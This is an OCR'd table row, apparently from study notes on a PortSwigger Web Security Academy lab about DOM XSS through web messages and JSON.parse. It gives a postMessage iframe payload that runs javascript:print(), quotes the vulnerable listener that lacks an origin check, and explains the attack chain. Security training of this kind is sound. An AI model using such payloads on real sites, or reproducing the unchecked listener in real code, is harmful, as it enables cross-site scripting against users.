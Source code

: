 |61    |DOM XSS using web messages and JSON.parse                                                                                |<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>  <script>                         window.addEventListener('message', function(e) {                             var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;                             document.body.appendChild(iframe);                             try {                                 d = JSON.parse(e.data);                             } catch(e) {                                 return;                             }                             switch(d.type) {                                 case "page-load":                                     ACMEplayer.element.scrollIntoView();                                     break;                                 case "load-channel":                                     ACMEplayer.element.src = d.url;                                     break;                                 case "player-height-changed":                                     ACMEplayer.element.style.width = d.width + "px";                                     ACMEplayer.element.style.height = d.height + "px";                                     break;                             }                         }, false);                     </script>                                                                                                                                                                                                                                                                                                                                                    |Home page contains an event listenrer that listens for a web message. Expects a string that is parsed using JSON.parse(). The JS expects a type property and that the load-channel case of the switch statement changes the iframe src attribute.  When the iframe in the payload loads, the postMessage() method sends a web message to the home page with the type load-channel. The event listener receives the message and parses it using JSON.parse() and sends it to switch.  The switch triggers the load-channel case, which assigns the url property of the message to the src attribute of the ACMEplayer.element iframe. However, in this case, the url property of the message actually contains our JavaScript payload. 				  					As the second argument specifies that any targetOrigin is allowed for the web message, and the event handler does not contain any form of origin check, the payload is set as the src of the ACMEplayer.element iframe. The print() function is called when the victim loads the page in their browser                                                                                                                                                                                        |DOM-Based, Practitioner                     |